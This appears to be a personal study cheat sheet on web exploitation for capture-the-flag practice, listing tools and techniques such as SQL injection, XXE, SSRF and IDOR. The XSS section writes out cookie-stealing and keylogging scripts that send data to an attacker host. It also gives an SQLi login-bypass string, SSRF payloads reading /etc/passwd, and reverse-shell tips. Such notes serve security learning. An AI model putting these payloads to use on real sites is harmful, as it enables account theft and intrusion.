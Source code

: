 # Web Exploitation
## Files
- [/robots.txt](https://developers.google.com/search/docs/advanced/robots/intro)
- [/humans.txt](https://humanstxt.org/)
- [/sitemap.xml](https://developers.google.com/search/docs/advanced/sitemaps/overview)
## Tools / Resources
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Tplmap](https://github.com/epinna/tplmap): assists exploiting code injection and SSTI vulnerabilities
- [XSRFProbe](https://github.com/0xInfection/XSRFProbe): CSRF audit and exploitation toolkit
- [WPscan](https://wpscan.com/wordpresses)
    - `wpscan --url <url> --api-token -e vp,vt --api-token <token>`: enumerate worpress vulnerable plugins and themes
- [nikto](https://securitytrails.com/blog/nikto-website-vulnerability-scanner): web server vuln scanner
    - may need to look at `-Help` not all info in man pages
    - use `-until` to set scan duration
        ```bash
        # default scan
        nikto -h <url> -p <port> -output <file.txt>
        ```

## Methods/Techniques
### Broken Authentication
- Re-registration: improper registration implementation, allows registration of "duplicate" users such as " admin" in place of "admin" with identical priveleges. Notice the _space_ in the first username.

### File Inclusion
- [LFI (Local File Inclusion)](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/): include file
- [RFI (Remote File Inclusion)](https://secf00tprint.github.io/blog/payload-tester/lfirfi/en)

### SQLi
- [sqlmap](https://sqlmap.org/): automated SQLi scanning tool
- [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- In-Band SQLi: the same method of communication used for the exploit receives the results
    - Error-Based: we get back error messages which are useful for obtaining info enumerating the DB
    - Union-Based: uses a `UNION` to return additional results to a page
- Blind SQLi: 
    - Authentication Bypass: bypass auth with something like `'username=1' or 1=1'; --`
    - Boolean Based: use true/false values or equivalent info returned to the page to enumerate DB
        - This approach requires some fuzzing to confirm the database, table, and column names before querying for specific data
    - Time Based: this is case is similar to Boolean Based, except there won't be any apparent response indicating if a query is true or false. Instead it must be inferred based on how much time the query takes to complete
        - The `SLEEP()` function can be used to introduce delay longside the `UNION` statement
- Out-of-Band SQLi: less common requires specific configuration on the DB server or web app logic making an external network call
    - defined by two communication channels, one to launch the atack and another for gathering results
    
### JWT Vulns / Tools
- [JWT (JSON Web Tokens)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
- [JWT Debugger](https://jwt.io/#debugger-io)
- [jwt_tool](https://github.com/ticarpi/jwt_tool)
- [jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)

### XXE (XML eXternal Entity)
Abuse of XML parsers/data to interact with the bacckend or external systems. 
- XXE (In Band): the attacker receives immediate response to the XXE payload 
- OOB-XXE (Out Of Band) / Blind XXE: there is no immediate response from the web server and the attacker has to reflect the output of their XXE payload to some other file on their own server
- DTD (Document Type Definition) defines an XML schema.

### Broken Access Control: normal user can access 'protected' pages

### XSS ('Cross' Site Scripting)
- Persistent/Stored XSS: Persisting code on a server via website, database etc. The malicious code is executed when a webpage is loaded or a query is made to the server
- Reflected XSS: The payload is part of the victims request to the website. An attacker needs to trick a victim into using a malicious URL. This is the most common type of XSS
- DOM-based XSS: 
- Common XSS Payloads
    - Cookie/Session Stealing (e.g. post cookie to attacker controlled website)
        ```html
        <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
        ```
    - Keylogging (e.g. forward keypresses to attacker controlled website)
        ```html
        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
        ```
    - Port scanning
    - Unrestricted Upload
        - [OWASP cheatsheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
    - Filter Evasion
        - [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
        - [cheatsheet2](https://www.netsparker.com/blog/web-security/xss-filter-evasion/)
### Insecure Deserialization: when untrusted data is used to abuse application logic
- Browser exploitation
    - [BeEF](https://github.com/beefproject/beef)

### SSRF (Server Side Request Forgery)
- An attacker can make further HTTP requests through a server to other services on the internal network (inside the firewall). The attack usually involves unsanitized input of a URL.
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#file): could include any URLs like:
    ```http
    file:///etc/passwd
    http://localhost:3306
    ```
- [requestbin.com](https://requestbin.com/): useful for catching requests when performing Blind SSRF since no output is reflected
- Look for full and partial URLs used in a GET parameters
- Look for hidden fields in forms that using a URL

### SSTI (Server Side Template Injection)
- Template injection allows an attacker to include template code to retrieve files and execute code on the server.

### IDOR (Insecure Direct Object Reference)
- The act of exploiting a misconfiguration with how user input is handled to access normally inaccessible resources.
- e.g. `http://<target>/note.php?note=1` accessing note=2 even if the note doesn't belong to the logged in user

### API based Authentication Bypass

### File Upload Vulns
- Overwriting existing files on a server
- Uploading and executing shells on a server
- Filtering
    - Extension validation
    - MIME validation
    - File type filtering
        - Magic number validation
    - File length filtering
    - File name filtering
    - File content filtering
        - scan uploaded file to ensure no spoofing of extension, MIME type or magic number
- Fooling content type validation

## Tips & Tricks
- `sudo -l`: lists what programs you can run as sudo as the current user.
- Use `rlwrap` to get a more usable reverse shell
- `python -c 'import pty; pty.spawn("/bin/bash")'`: spawn a fully interactive shell from a reverse shell with python.
- check `~/.bash_history` (and other dot files) for user/pass info etc.
- `python3 -c http.server <port>`: run simple web server at the current directory on `localhost`
- `powershell -c "Invoke-WebRequest -Uri <URL> -Outfile <path>"` download file in `cmd`.
- __ALWAYS__ try default credentials first
